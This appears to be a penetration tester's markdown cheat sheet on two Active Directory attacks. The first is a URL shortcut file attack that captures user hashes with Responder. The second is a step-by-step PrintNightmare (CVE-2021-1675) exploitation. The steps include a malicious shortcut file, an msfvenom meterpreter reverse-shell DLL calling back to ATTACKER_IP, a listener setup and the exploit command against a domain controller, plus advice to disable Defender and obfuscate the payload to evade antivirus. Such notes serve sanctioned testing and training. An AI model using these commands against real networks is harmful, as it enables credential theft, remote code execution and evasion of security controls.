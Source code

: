 *Watch Ippsec walkthrough on HTB machine ACTIVE*


## URL File Attacks
- [Active Directory Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)

- Play on SCF attack

Create Shortcut file:
```
# Save as "@test.url"
[InternetShortcut]
URL=blah 
WorkingDirectory=blah 
IconFile=\\x.x.x.x\%USERNAME%.icon 
IconIndex=1
```
- `responder -I eth0 -v`
- Let victim click on link in compromised share
- Retrieve hash in responder and crack or relay

## PrintNightmare (CVE-2021-1675)
- [cube0x0 RCE](https://github.com/cube0x0/CVE-2021-1675)
- [calebstewart LPE](https://github.com/calebstewart/CVE-2021-1675)

### Steps
- Following cube0x0 github above
1. Check if machine is vulnerable with rcpdump.py, change ip with domain controller 
`rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'`

If result =
```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```
Then machine is vulnerable

2. Install new impacket
3. Copy code from github and echo into python script
4. Create malicious dll: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=5555 -f dll > shell.dll`
5. Run msfconsole `use multi/handler`
6. `set payload windows/x64/meterpreter/reverse_tcp`
7. `set LPORT and LHOST as same as above`
8. Run smbserver.py from impacket `smbserver.py share 'pwd'`
9. Run exploit `
./CVE-2021-1675.py hackit.local/domain_user:Pass123@DC-IP '\\ATTACKER-IP\share\share.dll'
`
10. If error occurs, run smbserver.py(step 8) with -smb2support at the end.
11. Turn off windows defender if virus gets caught. 
12. For more serious dll creation, obfuscate dll and evade antivirus
